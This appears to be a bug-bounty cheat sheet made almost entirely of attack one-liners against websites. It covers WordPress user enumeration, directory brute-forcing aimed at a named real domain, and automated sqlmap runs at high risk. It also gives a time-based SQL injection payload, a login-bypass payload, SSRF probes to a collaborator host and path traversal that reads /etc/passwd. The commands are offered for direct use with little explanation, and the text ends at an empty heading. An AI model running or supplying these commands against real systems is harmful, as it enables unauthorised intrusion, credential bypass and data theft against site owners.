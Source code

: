 Go to your target website that is using WordPress CMS
Use the wpscan tool to check for the out-dated plugins, themes, default credentials etc.
My command : wpscan --url https://target.com --disable-tls-check --enumerate u
After the scan is completed you’ll get the result of out-dated and vulnerable things.
In my case it was vulnerable to “WP Support Plus Responsive Ticket System”
Referance: https://shahjerry33.medium.com/privilege-escalation-hello-admin-a53ac14fd388

Contant Discovery

dirsearch -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json -u https://agrevolution.in/ --deep-recursive --force-recursive --exclude-sizes=0B --random-agent --full-url -o dirsearch.txt
feroxbuster -u https://targer.com --insecure -d 1 -e -L 4 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
ffuf -u https://target.com/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -mc 200,403,301,302 -c true -v -o ffuf.txt
Javascript file Vulnerability

cat live_subdomains.txt | katana | grep js >>js.txt
cat live_subdomains.txt | subjs | grep js >>js.txt
httpx -l js.txt >>live_js.txt
cat live_js.txt | mantra and cat live_js.txt | nipejs
nuclei -l live_js.txt -t ~/nuclei-templates/http/exposures/ -o js_bugs.txt
SQL Injection Vulnerability

subfinder -d site.com -all -silent | waybackurls | sort -u | gf sqli > gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli.txt
echo http://testphp.vulnweb.com | waybackurls > wayback_urls_for_target.txt ; python3 /home/infosec/SQLiDetector/sqlidetector.py -f wayback_urls_for_target.txt
findomain -t vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
Time based SQL Injection

waybackurls http://testphp.vulnweb.com/ | grep -E '\bhttps?://\S+?=\S+' | grep -E '.php|.asp' | sort -u | sed 's/(=[^&]*)/=/g' | tee urls.txt | sort -u -o urls.txt
cat urls.txt | sed 's/=/=(CASE%20WHEN%20(888=888)%20THEN%20SLEEP(5)%20ELSE%20888%20END)/g' | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && time curl "'{}'"'
SQLi- Authentication Admin Panel Bypass

Go admin login page
Now enter the payload in the username or password field,
Payload Used: admin’ or ‘1’=’1'#
Enter the payload and click the submit button. You Login successfully…
Payload URL: https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt
Wordlist: https://github.com/p0dalirius/webapp-wordlists/tree/main
Test for SSRF

findomain -t http://testphp.vulnweb.com/ -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace http://YOUR.burpcollaborator.net
Local File Inclusion(LFI)

waymore.py -i vulnweb.com --no-subs -mode U -oU urls.txt
cat urls.txt | uro | sed 's/=.*/=/' | gf lfi | nuclei -tags lfi
httpx -l subdomains.txt -path "///////../../../../../../etc/passwd" -status-code -mc 200 -ms 'root:'
Path Traversal
